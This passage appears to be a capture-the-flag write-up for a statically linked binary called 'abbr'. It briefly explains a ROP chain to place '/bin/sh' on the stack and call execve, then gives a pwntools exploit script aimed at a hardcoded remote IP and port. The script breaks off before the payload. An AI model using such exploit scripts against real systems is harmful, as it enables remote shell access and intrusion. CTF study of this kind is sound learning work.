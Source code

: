 The binary is staticly linked with musl libs, so we need to place "/bin/sh\x00" on the stack using a ROP chain, then call the `execve` syscall.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host 168.119.108.148 --port 10010 abbr
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('abbr')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or '168.119.108.148'
port = int(args.PORT or 10010)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
b*0x00402036
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

def writeGadget(address, gadget):
    for i in range(8):
```